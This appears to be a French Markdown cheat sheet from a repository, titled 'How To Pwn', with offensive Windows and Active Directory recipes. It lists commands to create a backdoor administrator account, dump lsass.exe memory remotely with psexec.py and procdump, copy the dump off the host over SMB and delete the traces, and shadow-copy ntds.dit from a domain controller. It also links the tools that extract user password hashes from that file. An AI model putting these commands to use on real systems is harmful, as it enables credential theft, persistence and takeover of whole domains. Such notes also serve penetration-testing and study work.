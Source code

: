 # How To Pwn

Des petits tutos pour bien utiliser les différents outils.

## How To - Every ways of PSExec

### add a local user account

``` cmd
net user /add jdupond AWNzcek2382OD
net localgroup administrators jdupond /add
net localgroup administrators CONTOSO\jdurand /add
```

### procdump lsass.exe

``` bash
psexec.py -c procdump.exe "$domain/$domuser:$userpassword@$cible" "-acceptEula -ma lsass.exe C:/windows/lsass.dmp"
smbget -w $domain -U $domuser%$userpassword smb://$cible/ADMIN$/lsass.dmp
psexec.py "$domain/$domuser:$userpassword@$cible" "del C:/windows/lsass.dmp" 
```

## How To - récupérer les passwords de tous les users de l'AD

Comment récupérer les hashes puis les mots de passe des comptes utilisateurs d'un Active Directory.

Note : cette méthode est totalement déprécié par CrackMapExec.

### dumper les fichiers ntds.dit et SYSTEM depuis un DC

voir shadow copy

``` cmd
vssadmin create shadow
[…]
vssadmin delete shadows
```

### convertir le fichier ntds.dit

pour sortir les tables intéressantes de la "main database of Active Directory".

* [download](http://pkgs.fedoraproject.org/repo/pkgs/libesedb/libesedb-alpha-20120102.tar.gz/198a30c98ca1b3cb46d10a12bef8deaf/libesedb-alpha-20120102.tar.gz)

`~/tools/libesedb-20120102/esedbtools/esedbexport ntds.dit`

### Sortir les hashes des utilisateurs

* [site officiel](http://www.ntdsxtract.com/)
* [download](http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_0.zip)
